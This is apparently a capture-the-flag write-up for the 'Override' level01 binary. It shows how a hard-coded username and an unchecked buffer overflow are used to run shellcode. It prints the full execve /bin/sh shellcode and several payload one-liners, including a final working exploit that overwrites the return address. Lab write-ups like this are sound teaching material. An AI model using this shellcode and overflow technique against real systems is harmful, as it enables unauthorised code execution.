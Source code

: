 # Override / Level01

We have a binary file name level01 we can see its asking for a username and a password.

![Légende](img1.png)

We can see on the source file the username is dat_will.
So we can bypass this. But after that the password admin just close the program.

We can see two things:
-A bufferflow can be occured on the s variable with fgets.
-The program doesn t verify if there are more on the a_user_name then 7 caracteres.

So the goal is to hide a shellcode on the a_user_name and causing a buffer overflow pointing to the adress a_username.

## Hidding the shellcode.

Using gdb we can see where the variable is:
![Légende](img2.png)

![Légende](img3.png)

We breakpoint at 0x0804852d to see if the hidden shellcode works
Using `run <<< $(python -c 'print "dat_will" + "\x90" * 19+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"';)`

![Légende](img4.png)

We can see the shellcode is hidding.

## Causing the overflow

After a few test i see a segfault with this:
`run <<< $(python -c 'print "dat_will" + "\x90" * 19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"';python -c 'print "A" *  282' + "B" * 4;)`

![Légende](img5.png)

Now we just need to remplace the B with the adress of the shellcode who is 0x0804a050 (reverse always because the computer is reading reverse)

`run <<< $(python -c 'print "dat_will" + "\x90" * 19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"';python -c 'print "A" *  282 + "\x50\xa0\x04\x08"';)`
![Légende](img6.png)


Now we just need to see where the segfault without gdb is taking.
After a few test i see the segfault is after 80 caracteres.
So we the exploit final is:

> (python -c 'print "dat_will" + "\x90" * 19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"';python -c 'print "A" *  80 + "\x50\xa0\x04\x08"';cat;) | ./level01
